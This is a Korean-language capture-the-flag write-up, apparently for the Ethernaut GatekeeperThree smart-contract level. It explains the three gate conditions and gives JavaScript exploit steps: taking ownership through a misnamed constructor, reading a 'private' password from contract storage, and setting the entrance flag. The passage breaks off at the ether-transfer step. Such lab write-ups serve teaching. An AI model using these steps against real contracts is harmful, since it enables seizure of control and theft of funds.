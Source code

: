 조건:\
- `msg.sender == owner`\
- `tx.origin != owner`

해결:\
- 공격 컨트랙트를 `owner`로 설정\
- 플레이어 → 공격 컨트랙트 → GatekeeperThree 순서로 호출

### Gate Two: AllowEntrance 활성화

조건:\
- `allowEntrance == true`

해결:\
- `SimpleTrick`의 `password`를 storage에서 읽음\
- `getAllowance(password)` 호출

### Gate Three: Ether 전송 실패 유도

조건:\
- 컨트랙트 잔액 \> 0.001 ether\
- `send()`가 실패해야 함

해결:\
- 컨트랙트에 0.001 ether 이상 송금\
- owner(공격 컨트랙트)가 ether 수신 거부

------------------------------------------------------------------------

## 공격 구현

### 1단계: Owner 권한 획득

``` javascript
await contract.construct0r();
console.log("New owner:", await contract.owner());
```

### 2단계: Password 추출

``` javascript
await contract.createTrick();
const trickAddress = await contract.trick();
const passwordHex = await web3.eth.getStorageAt(trickAddress, 2);
const password = web3.utils.hexToNumber(passwordHex);
```

### 3단계: AllowEntrance 활성화

``` javascript
await contract.getAllowance(password);
console.log(await contract.allowEntrance()); // true
```

### 4단계: Ether 전송
